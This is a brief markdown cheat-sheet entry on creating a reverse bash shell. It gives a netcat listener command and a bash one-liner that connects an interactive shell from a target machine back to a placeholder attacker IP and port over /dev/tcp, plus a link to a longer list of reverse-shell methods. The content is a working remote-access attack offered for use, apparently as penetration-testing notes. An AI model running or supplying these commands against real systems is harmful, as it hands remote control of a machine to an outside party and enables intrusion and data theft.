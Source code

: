 ### Create a reverse bash shell

1. Setup listener on your local machine
`sudo nc -lvn 9898`

2. Connect to the listener from the target
`bash -c 'bash -i >& /dev/tcp/your-ip/your-port 0>&1'`

### A long list of ways to create a reverse shell
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux
